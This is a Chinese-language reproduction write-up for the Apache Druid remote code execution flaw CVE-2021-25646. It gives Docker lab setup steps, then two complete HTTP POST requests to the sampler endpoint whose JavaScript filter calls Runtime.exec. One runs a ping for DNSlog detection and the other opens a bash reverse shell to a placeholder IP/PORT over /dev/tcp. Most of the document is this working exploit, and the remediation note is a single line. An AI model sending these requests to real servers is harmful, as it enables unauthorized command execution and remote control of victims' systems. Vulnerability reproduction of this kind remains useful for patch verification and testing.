 # Apache Druid 远程代码执行漏洞（CVE-2021-25646）

# 漏洞概述

Apache Druid是美国阿帕奇软件（Apache）基金会的一款使用Java语言编写的、面向列的开源分布式数据库。

Apache Druid 0.20.0和更早的版本存在访问控制错误漏洞，该漏洞允许经过身份验证的用户强制Druid运行用户提供的JavaScript代码，并执行服务器进程特权的代码。



# 影响版本 



```
Apache Druid < 0.20.1
```



# 搭建环境



```
为了复现方便，这里使用docker搭建环境
docker search docker-druid #搜索镜像
docker pull fokkodriesprong/docker-druid #拉取镜像
docker run --rm -i -p 8888:8888  fokkodriesprong/docker-druid #启动镜像
```

注：如果大家拉取镜像比较慢可以配置一下国内镜像源，这里我使用的是阿里云的加速源URL为:https://cr.console.aliyun.com/



\## 本机访问IP:888端口显示该页面表示启动成功

![image-20210220145956286](.resource/Apache%20Druid%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25646%EF%BC%89/media/image-20210220145956286.png)

# 漏洞复现

\## POC使用DNSlog检测是否可以执行命令



```

POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 192.168.30.137:8888
Content-Length: 604
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.30.137:8888
Referer: http://192.168.30.137:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/opt/","filter":""}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('ping XXXX')}",
"dimension":"added",
"":{
"enabled":"true"
}
}}}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![image-20210220150109610](.resource/Apache%20Druid%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25646%EF%BC%89/media/image-20210220150109610.png)

\## 反弹shell

这里说一下踩的坑之前是用0.20.0版本做的复测，发现在0.20.0版本使用/bin/bash命令时服务器会报错,应该是做了过滤

![image-20210220150134585](.resource/Apache%20Druid%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25646%EF%BC%89/media/image-20210220150134585.png)

所以改用了0.17.0版本来进行测试，其他版本请自测



```
POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 192.168.30.137:8888
Content-Length: 604
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.30.137:8888
Referer: http://192.168.30.137:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/opt/","filter":""}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/IP/PORT 0>&1')}",
"dimension":"added",
"":{
"enabled":"true"
}
}}}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![image-20210220150159397](.resource/Apache%20Druid%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25646%EF%BC%89/media/image-20210220150159397.png)

**修复方式**

升级到最新版Apache Druid 0.20.1